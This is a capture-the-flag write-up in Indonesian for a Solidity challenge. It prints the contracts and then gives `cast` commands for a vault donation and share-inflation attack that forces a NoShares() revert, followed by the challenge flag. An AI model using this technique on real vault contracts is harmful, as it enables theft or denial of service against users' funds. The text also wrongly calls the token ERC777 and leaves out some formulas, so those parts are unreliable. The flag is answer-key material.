

Sebelum mulai, gw mau ngasi tau kalo disini gw dapet first blood 🩸 di chall ini

Jadi awalnya gw liat ini,


tapi karna gw skill issue di blockchain (ga di blockchain aja sih, skill issue ctf malah) jadi gw ga berpikir buat rush chall category blockchain, dan emang beneran, di wave pertama gw ga solve sama sekali soal blockchain (dan emang blom ada yang solve, karna jujur sesusah itu), tapi pas di wave kedua mulai, disini gw iseng nyobain chall blockchain yang baru didrop kan.... dan\
BOOM


dan yah, gw langsung disuruh dm probset nya


btw bounty nya dinaikin jadi 100rb, big thanks untuk mas fahrul ^_^ lumayan buat beli bobux

Jadi, waktu nya masuk ke inti, jadi disini diberi 2 source, yaitu `Fortress.sol` dan `Setup.sol`\
`Fortress.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract PhantomCoin is ERC20 {
    uint256 public constant MAX_SUPPLY = 100 ether;
    constructor() ERC20("PhantomCoin", "PHTM") {}

    function buyTokens() external payable {
        uint256 tokensToMint = msg.value;
        require(totalSupply() + tokensToMint <= MAX_SUPPLY, "PHTM: Max supply exceeded");
        _mint(msg.sender, tokensToMint);
    }
}

contract Vault {
    address public owner;
    PhantomCoin public token;
    mapping(address => uint256) public shares;
    uint256 public totalShares;

    constructor(address _token, address _owner) {
        owner = _owner;
        token = PhantomCoin(_token);
    }

    function deposit(uint256 _amount) external {
        require(_amount > 0, "Vault: amount must be greater than 0");
        uint256 currentBalance = token.balanceOf(address(this));
        uint256 currentShares = totalShares;

        uint256 newShares;
        if (currentShares == 0) {
            newShares = _amount;
        } else {
            newShares = (_amount * currentShares) / currentBalance;
        }

        shares[msg.sender] += newShares;
        totalShares += newShares;

        token.transferFrom(msg.sender, address(this), _amount);
    }

    function withdraw(uint256 _sharesAmount) external {
        require(_sharesAmount > 0, "Vault: amount must be greater than 0");

        uint256 currentBalance = token.balanceOf(address(this));
        uint256 payoutAmount = (_sharesAmount * currentBalance) / totalShares;

        shares[msg.sender] -= _sharesAmount;
        totalShares -= _sharesAmount;

        if (msg.sender == owner) {
            payoutAmount = token.balanceOf(address(this));
        }

        token.transfer(msg.sender, payoutAmount);
    }
}

error NoShares();

contract Fortress {
    Vault public vaultContract;
    PhantomCoin public tokenInstance;

    address public owner;
    uint256 public depositAmount;

    constructor(address _owner) payable {
        owner = _owner;
        tokenInstance = new PhantomCoin();
        vaultContract = new Vault(address(tokenInstance), address(this));

        depositAmount = msg.value;
        tokenInstance.buyTokens{value: msg.value}();
        tokenInstance.approve(address(vaultContract), msg.value);
    }

    function openVault() external returns (bool) {
        require(msg.sender == owner, "Only owner");

        uint256 currentBalance = tokenInstance.balanceOf(address(vaultContract));
        uint256 currentShares = vaultContract.totalShares();

        uint256 wouldMint = currentShares == 0
            ? depositAmount
            : (depositAmount * currentShares) / currentBalance;

        if (wouldMint == 0) revert NoShares();

        vaultContract.deposit(depositAmount);
        uint256 myShares = vaultContract.shares(address(this));
        uint256 vaultBalance = tokenInstance.balanceOf(address(vaultContract));
        vaultContract.withdraw(myShares);
        tokenInstance.transfer(owner, vaultBalance);
        return true;
    }

    function vault() external view returns (address) { return address(vaultContract); }
    function token() external view returns (address) { return address(tokenInstance); }
}
```
`Setup.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./Fortress.sol";

contract Setup {
    Fortress public challenge;

    constructor() payable {
        challenge = new Fortress{value: 0.5 ether}(address(this));
    }

    function isSolved() external view returns (bool) {
        // simulate openVault()
        (bool ok, bytes memory ret) = address(challenge).staticcall(
            abi.encodeWithSignature("openVault()")
        );

        if (ok) return false;

        if (ret.length >= 4) {
            bytes4 sel;
            assembly {
                sel := mload(add(ret, 32))
            }
            // bytes4(keccak256("NoShares()"))
            return sel == NoShares.selector;
        }
        return false;
    }
}
```
## Penjelasan
Jadi, disini:
```solidity
contract PhantomCoin is ERC20 {
    uint256 public constant MAX_SUPPLY = 100 ether;
    constructor() ERC20("PhantomCoin", "PHTM") {}

    function buyTokens() external payable {
        uint256 tokensToMint = msg.value;
        require(totalSupply() + tokensToMint <= MAX_SUPPLY, "PHTM: Max supply exceeded");
        _mint(msg.sender, tokensToMint);
    }
}
```
`buyTokens()` menukar ETH → token 1:1 dengan satuan wei. Itu membuat manipulasi jumlah token sangat mudah karena kita bisa beli token secara granular (sampai 1 wei). `MAX_SUPPLY` ada, tapi limitnya jauh lebih besar dari yang dipakai di challenge (0.5 ether). Jadi kita nggak perlu khawatir out‑of‑supply dan token ini berupa `ERC777 OpenZeppelin`; tidak ada hook ERC777 atau fitur aneh lain yang bisa menyebabkan reentrancy ketika vault meng-update state sebelum melakukan transfer.

Karna mint `1:1`, kita bisa membuat donation dalam jumlah yang presisi (mis. 0.5 ether + 1 wei). Transfer token ke Vault bisa dilakukan dengan dua cara, lewat `deposite()` (yang memperbarui `shares` & `totalshares`) atau `transfer()` biasa (yang hanya merubah balance token di Vault tanpa mengubah `totalShares`) dan tentu kita akan menggunakan transfer disini

Disini, Vault yang jadi intinya:
```solidity
mapping(address => uint256) public shares;
    uint256 public totalShares;

    constructor(address _token, address _owner) {
        owner = _owner;
        token = PhantomCoin(_token);
    }

    function deposit(uint256 _amount) external {
        require(_amount > 0, "Vault: amount must be greater than 0");
        uint256 currentBalance = token.balanceOf(address(this));
        uint256 currentShares = totalShares;

        uint256 newShares;
        if (currentShares == 0) {
            newShares = _amount;
        } else {
            newShares = (_amount * currentShares) / currentBalance;
        }

        shares[msg.sender] += newShares;
        totalShares += newShares;

        token.transferFrom(msg.sender, address(this), _amount);
    }
```
Disini, deposit pertama punya perlakukan khusus, kalau `totalShares == 0`, maka `newShares == _amount`. Jadi deposit pertama _passthrough_ `1:1` dari token ke shares. Itu yang kita gunakan untuk membuat `totalShares = 1` dengan mengirim 1 wei, dan deposit berikutnya diberikan share proporsional berdasarkan rasio `totalShares / currentBalance`. Kalau owner narik, dia dapat seluruh balance token vault `(payoutAmount = token.balanceOf(address(this))`, ini ngejelasin kenapa Fortress bisa set sebagai owner 

Donation (transfer langsung) tidak mempengaruhi shares, ini adalah inti dari `token.transfer(vault, amount)` menambah bala

Contoh:\
Misal `totalShares = 1`, `currentBalance = 1` (saat baru deposit 1 wei)\
`depositAmount` (nilai yang dicatat Fortress) = `0.5` ether  = `500000000000000000` wei

Kalau sekarang `currentBalance = 500000000000000001` (`0.5` ether + 1 wei) setelah donation, perhitungan for `wouldMint`  (anggap `currentShares = 1`) adalah



Jadi meskipun depositAmount besar, karna currentBalance lebih besar dia membagi jadi 0.

Detail Mekanism openVault:
```solidity
        uint256 currentBalance = tokenInstance.balanceOf(address(vaultContract));
        uint256 currentShares = vaultContract.totalShares();

        uint256 wouldMint = currentShares == 0
            ? depositAmount
            : (depositAmount * currentShares) / currentBalance;

        if (wouldMint == 0) revert NoShares();

        vaultContract.deposit(depositAmount);
        uint256 myShares = vaultContract.shares(address(this));
        uint256 vaultBalance = tokenInstance.balanceOf(address(vaultContract));
        vaultContract.withdraw(myShares);
        tokenInstance.transfer(owner, vaultBalance);
        return true;
    }
```
`depositAmount` disimpan saat Fortress dibuat di constructor, nilai ini sama dengan ETH yang dikirim saat deploy (di Setup code, itu `0.5` ether), `currentShares == 0`, jika belum ada share, Fortress berencana mint `depositAmount` share, maka `wouldMint` tidak 0 dan `openVault` akan lanjut, dan kita gamau itu.

Target kita adalah cabang else nya, pastikan `currentShares != 0` lalu buat `(depositAmount * currentShares) < currentBalance` sehingga pembagian menghasilkan 0, kalau `wouldMint == 0` maka akan revert `NoShares()` sebelum panggilan `deposit()`. Ini critical karena staticcall di Setup akan menangkap revert tersebut dan menganggap itu tanda solved.

Apa yang dicek setup:
```solidity
(bool ok, bytes memory ret) = address(challenge).staticcall(
            abi.encodeWithSignature("openVault()")
        );

        if (ok) return false;

        if (ret.length >= 4) {
            bytes4 sel;
            assembly {
                sel := mload(add(ret, 32))
            }
            // bytes4(keccak256("NoShares()"))
            return sel == NoShares.selector;
        }
```
`staticcall` menjalankan fungsi secara read-only, fungsi tidak boleh mengubah state. Itu bagus untuk simulasi karena jika fungsi revert dengan kondisi yang dicek sebelum state-changing code, `staticccall` bisa menampilkan revert tersebut tanpa benar benar mengubah state

Jika `ok = true`, berarti `openVault()` berjalan tanpa revert meski hanya simulasi, itu berarti kondisi `NoShares()` tidak terpenuhi

Jika `ok = false`, ada revert, ret menyimpan data revert (di mana 4 byte pertama biasanya merupakan selector error / revert reason). Setup baca 4 byte pertama (dengan assembly) dan bandingkan dengan selector error NoShares.selector.

Jadi, satu satunya cara `IsSolved() = true`, adalah ketika `openVault()` revert dan revert reason adalah `NoShares()`

Jadi kita mau `wouldMint == 0`. Asumsikan `currentShares != 0`, maka


Jadi syarat eksplisitnya:


Dari source `depositAmount = 0.5 ether`. Kita bisa atur `currentShares` menjadi 1 (deposit 1 wei) sehingga syaratnya berubah menjadi `currentBalance > 0.5 ether`.

Minimal donation yang diperlukan adalah `depositAmount` + 1 wei jika `currentShares = 1`. Itu kenapa di skrip terlihat angka `500000000000000001`.

## Step-by-Step
1. Ambil alamat Fortress
```solidity
cast storage $SETUP 0 --rpc-url $RPC_URL
```


2. Ambil Vault & Token dari Fortress
```solidity
cast storage $FORTRESS 0 --rpc-url $RPC_URL # baca slot 0 -> Vault
cast storage $FORTRESS 1 --rpc-url $RPC_URL # baca slot 1 -> Token
```


3. Buat 1 wei share (deposit pertama)
```solidity
cast send $TOKEN "buyTokens()" --value 1 --private-key $PK --rpc-url $RPC_URL
cast send $TOKEN "approve(address,uint256)" $VAULT 1 --private-key $PK --rpc-url $RPC_URL
cast send $VAULT "deposit(uint256)" 1 --private-key $PK --rpc-url $RPC_URL
```


4. Donation token ke vault
```solidity
DONATION=500000000000000001 # 0.5 ether + 1 wei
cast send $TOKEN "buyTokens()" --value $DONATION --private-key $PK --rpc-url $RPC_URL
cast send $TOKEN "transfer(address,uint256)" $VAULT $DONATION --private-key $PK --rpc-url $RPC_URL
```


5. Cek status isSolved()
```solidity
cast call $SETUP "isSolved()(bool)" --rpc-url $RPC_URL
```


## Flag
`COMPFEST17{y0u_are_p0werless_since_y0u_cann0t_d0_the_rug_n0w_huh?_b62ecb3383}`
